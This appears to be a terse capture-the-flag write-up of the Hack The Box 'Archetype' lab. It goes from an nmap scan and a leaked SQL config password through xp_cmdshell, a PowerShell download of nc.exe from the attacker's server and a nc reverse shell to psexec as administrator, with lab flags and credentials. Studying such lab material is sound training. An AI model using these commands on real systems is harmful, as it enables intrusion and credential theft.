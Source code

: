 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Archetype

sudo nmap -sC -sV -A 10.10.10.27

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
Host script results:
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: "guest"
|   authentication_level: "user"
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-09-19T08:27:51
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: "Archetype"
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-19T01:27:52-07:00
|_clock-skew: mean: 1h49m02s, deviation: 3h07m52s, median: 25m01s

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC

altname: PROD~1.DTS
create_time:    一  1月 20 20時20分57秒 2020 CST
access_time:    一  1月 20 20時23分02秒 2020 CST
write_time:     一  1月 20 20時23分02秒 2020 CST
change_time:    一  1月 20 20時23分18秒 2020 CST
attributes: RA (21)
stream: [::$DATA], 609 bytes

prod.dtsConfig in backups

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

[[domain/]username[:password]@]<targetName or address>

impacket-mssqlclient sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

sp_configure make sure xp_cmdshell is opened

local runs python3 -m http.server to upload nc.exe makes remote wget

xp_cmdshell powershell wget http://10.10.14.69:8000/nc.exe -outfile %TEMP%\nc.exe

nc -lvnp 5678

xp_cmdshell powershell %TEMP%\nc.exe -nv 10.10.14.69 5678 -e cmd.exe

user.txt
3e7b102e78218e935bf3f4951fec21a3

powershell history.txt
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

impacket-psexec administrator@10.10.10.27
or impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.10.10.27

root.txt
b91ccec3305e98240082d4474b848528
